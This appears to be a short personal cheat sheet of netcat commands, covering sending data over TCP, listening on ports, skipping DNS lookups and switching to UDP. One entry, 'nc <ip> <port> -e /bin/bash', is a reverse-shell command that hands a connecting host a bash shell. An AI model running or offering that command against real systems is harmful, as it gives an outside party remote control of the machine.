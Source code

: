 # All of my used comamnds in netcat

* ```echo hello | nc <ip> <port>``` send the output of echo by tcp packets to the specified ip and port
* ```nc <ip> <port> -e /bin/bash``` specify which program to execute after connect to a host
* ```nc -l -p <port>``` Listen for incoming packets from the specified port
* ```nc -l -n -p <port>``` Do not do any DNS or service lookups on any specified addresses, hostnames or ports while listening
* ```nc -u``` use UDP packets instead of tcp